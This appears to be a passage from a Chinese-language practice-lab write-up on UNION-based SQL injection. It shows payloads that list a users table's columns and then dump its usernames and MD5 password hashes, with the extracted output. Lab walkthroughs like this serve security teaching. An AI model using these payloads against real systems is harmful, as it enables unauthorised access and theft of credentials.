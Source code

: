 查看users表中所有的列

```
-1' union select group_concat(column_name),2,3 from information_schema.columns where table_name='users'#
```

得到列名如下：

```
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,user,pasword,name,address	
```

![image-20220318111236319](靶场练习.assets/image-20220318111236319.png)

查看表中user,password

```
-1' union select group_concat(user),group_concat(pasword),3 from users#
```

用户名如下：

```
user1
user2
user3
test
superadmin
test1
admin
```

对应的密码如下：

```
5d41402abc4b2a76b9719d911017c592
6269c4f71a55b24bad0f0267d9be5508
0f359740bd1cda994f8b55330c86d845
05a671c66aefea124cc08b76ea6d30bb
2386acb2cf356944177746fc92523983
05a671c66aefea124cc08b76ea6d30bb
e10adc3949ba59abbe56e057f20f883e
```
